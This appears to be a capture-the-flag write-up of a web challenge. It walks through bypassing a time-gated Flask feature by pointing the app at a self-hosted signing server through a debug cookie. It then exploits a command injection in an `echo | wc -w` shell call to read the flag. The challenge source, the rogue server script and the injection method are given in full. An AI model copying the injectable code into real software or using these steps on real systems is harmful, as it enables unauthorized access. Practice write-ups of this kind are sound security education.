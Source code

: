 # Feature Unlocked
## Description
> The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..
>
> https://feature-unlocked-web-challs.csc.tf/

## Challenge Overview
This challenge wants us to access the feature page but it will redirect back to home page until the timer runs out (which is after 7 days)

![image](https://github.com/user-attachments/assets/7ad18c1a-1cdb-4d89-929b-2041a286c5d6)
<details> 
  <summary> Source code for app.py</summary>
  
```py
import subprocess
import base64
import json
import time
import requests
import os
from flask import Flask, request, render_template, make_response, redirect, url_for
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from itsdangerous import URLSafeTimedSerializer

app = Flask(__name__)
app.secret_key = os.urandom(16)
serializer = URLSafeTimedSerializer(app.secret_key)

DEFAULT_VALIDATION_SERVER = 'http://127.0.0.1:1338'
NEW_FEATURE_RELEASE = int(time.time()) + 7 * 24 * 60 * 60
DEFAULT_PREFERENCES = base64.b64encode(json.dumps({
    'theme': 'light',
    'language': 'en'
}).encode()).decode()


def get_preferences():
    preferences = request.cookies.get('preferences')
    if not preferences:
        response = make_response(render_template(
            'index.html', new_feature=False))
        response.set_cookie('preferences', DEFAULT_PREFERENCES)
        return json.loads(base64.b64decode(DEFAULT_PREFERENCES)), response
    return json.loads(base64.b64decode(preferences)), None


@app.route('/')
def index():
    _, response = get_preferences()
    return response if response else render_template('index.html', new_feature=False)


@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)


@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))


def get_pubkey(validation_server):
    try:
        response = requests.get(f"{validation_server}/pubkey")
        response.raise_for_status()
        return ECC.import_key(response.text)
    except requests.RequestException as e:
        raise Exception(
            f"Error connecting to validation server for public key: {e}")


def validate_access(validation_server):
    pubkey = get_pubkey(validation_server)
    try:
        response = requests.get(validation_server)
        response.raise_for_status()
        data = response.json()
        date = data['date'].encode('utf-8')
        signature = bytes.fromhex(data['signature'])
        verifier = DSS.new(pubkey, 'fips-186-3')
        verifier.verify(SHA256.new(date), signature)
        return int(date)
    except requests.RequestException as e:
        raise Exception(f"Error validating access: {e}")


def validate_server(validation_server):
    try:
        date = validate_access(validation_server)
        return date >= NEW_FEATURE_RELEASE
    except Exception as e:
        print(f"Error: {e}")
    return False


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

</details>

### Routes:

- `/`

    - This route serves the homepage. If `preferences` cookie aren't set, it returns a response with the default `preferences` cookie.
      
- `/release`

    - It checks for an `access_token` in the cookies, which, if valid, redirects the user to the feature page.
    - If the token is not valid, the route attempts to validate the server. If successful, the user is given an `access_token`, unlocking the feature.
    - This route also accept `?debug` parameter, where the user can include their own validation server inside `preferences` cookie.
- `/feature`

    - This route provides access to the hidden feature, which involves processing user input through a shell command (`wc -w`) to count words.
    - The route ensures that only users with a valid `access_token` can access it.

## Solution
### Access to `/feature` page

- In order to access `/feature` page, we need to setup our own server that can generate public/private key pair and return date as 7 days after the `NEW_FEATURE_RELEASE`.

```py
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    # Set the time to 7 days from now
    future_time = int(time.time()) + 7 * 24 * 60 * 60
    date = str(future_time)

    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1338)
```

- Start the server in the terminal and run `ngrok` to expose our local server to the internet. 

- Send the `preferences` cookie with `validation_server` as our `ngrok` URL. Make sure to encode it to base64.
```
{"theme": "light", "language": "en", "validation_server": "https://33c9-2001-e68-5419-58e7-a0e7-ba44-62ec-b33d.ngrok-free.app"}
```
- Make sure `debug` GET parameter link `/release` is set to `True`.
- Check our `ngrok` server, we can see requests from the server.

![image](https://github.com/user-attachments/assets/d7094a45-26ba-4ec1-9e7d-53ad3b5f073d)

![image](https://github.com/user-attachments/assets/75f46598-037d-40e3-b1b7-cbc85e99ad2f)

We finally can access to `/feature` page.

![image](https://github.com/user-attachments/assets/630e624d-c1e7-4ff1-b8a9-9aa8670403f1)

### Command Injection
The feature page can count how many words are inside our input by using `echo` and `wc -w`. When I put `;` in the input, it gives us an error. 

![image](https://github.com/user-attachments/assets/f3ef16dd-b873-4ab8-afd8-7d4c7b0fc65c)

In order to read the flag.txt, we can use `$(...)` (Command substitution syntax)

> Command substitution is a shell feature that allows the output of a command to be used as an argument in another command.

![image](https://github.com/user-attachments/assets/b0186dd0-f545-4fa0-83f4-c8c552540034)

Another way is to send the flag back to our server as base64. We can use `Webhook` or `ngrok` as our receiving server.

![image](https://github.com/user-attachments/assets/59c43ffc-86f2-425e-b086-1ce9517260d3)

We get the encoded flag in our Webhook logs. 
![image](https://github.com/user-attachments/assets/c727dafd-4b19-4208-a87f-8fdd685ad873)
```
Q1NDVEZ7ZDFkX3kwdV83MW0zXzdyNHYzbF9mMHJfN2gxNV9mbDQ2PyF9
```

## Flag
```
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```
